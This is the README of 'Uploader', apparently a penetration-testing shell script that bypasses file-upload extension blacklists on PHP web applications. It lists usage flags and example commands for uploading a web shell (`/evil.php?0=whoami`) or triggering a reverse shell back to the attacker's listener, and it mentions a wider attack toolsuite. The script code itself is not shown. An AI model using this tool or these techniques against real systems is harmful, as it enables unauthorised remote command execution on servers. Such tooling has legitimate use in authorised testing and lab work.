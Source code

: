 # Uploader
A simple shell script that attempts to bypass extension blacklists for file uploads. If no arguments are provided it will default to interactive mode.

## Usage

`-h`: Display this help message

`-i <IP_Addres>`: The IP Address to use for the Reverse Shell payload (i.e. your interface)

`-p <PORT>`: The port that your listener is running on

`-u <URL>`: The target URL that's used in POST Requests to upload a file

`-n <NAME>`: The 'name' attribute that's used in POST Requests (e.g. `file` for name="file")

`-e <URL>`: Exploit mode. Attempts to automatically trigger a Reverse Shell. Enter the URL where uploaded files are saved to.

`-b`: Basic payload instead of a Reverse Shell. Provide commands as the value of the 0 parameter (e.g. `/evil.php?0=whoami`) . Incompatible with `-e`

 For example,

 `./uploader.sh -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -e http://10.10.40.117/uploads/`

 `./uploader.sh -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -b`

## Functionality
As of now, Uploader is only designed for PHP based Web Applications that have file upload functionality using a POST request to send Boundary (multipart) Data.

The Reverse Shell payload works against Linux machines.

## In Development
This will eventually be integrated into the Ares toolsuite (https://github.com/Komodo-pty/ares-attack)

The following will be added in subsequent updates:

1) Support for more languages
2) Support for more types of file uploads
3) More types of upload bypasses
4) Payloads for Windows
